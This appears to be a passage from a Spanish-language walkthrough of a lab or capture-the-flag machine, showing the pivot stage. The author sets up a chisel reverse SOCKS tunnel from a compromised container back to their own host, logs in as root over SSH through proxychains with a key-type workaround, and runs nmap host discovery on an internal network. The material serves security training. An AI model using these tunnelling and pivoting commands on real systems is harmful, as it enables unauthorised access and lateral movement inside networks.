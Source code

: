 En mi equipo lo ejecuto como cliente

```null
chisel server -p 1234 --reverse
```

Desde el contenedor me conecto

```null
./chisel client 10.10.16.11:1234 R:socks &>/dev/null & disown
```

Me intento conectar por SSH a un contenedor, pero recibo un error de firma

```null
proxychains ssh root@172.23.0.253 -i id_rsa
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
sign_and_send_pubkey: no mutual signature supported
root@172.23.0.253: Permission denied (publickey).
```

Pero con un parámetro se soluciona

```null
 proxychains ssh root@172.23.0.253 -i id_rsa -o PubkeyAcceptedKeyTypes=ssh-rsa
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Last login: Mon Nov 13 15:20:19 2017 from 10.10.14.2
root@ezra:~# 
```

Este tiene dos interfaces asignadas

```null
root@ezra:~# hostname -I
172.23.0.253 172.24.0.253
```

Vuelvo a subir el ```nmap``` para el HostDiscovery

```null
root@ezra:/tmp# ./nmap --min-rate 5000 -n -sn 172.24.0.1/24

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-03-16 17:05 UTC
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.24.0.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000034s latency).
MAC Address: 02:42:BF:EF:41:72 (Unknown)
Nmap scan report for 172.24.0.2
Host is up (0.000010s latency).
MAC Address: 02:42:AC:18:00:02 (Unknown)
Nmap scan report for 172.24.0.252
Host is up (0.000017s latency).
MAC Address: 02:42:AC:18:00:FC (Unknown)
Nmap scan report for 172.24.0.253
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 0.32 seconds
```
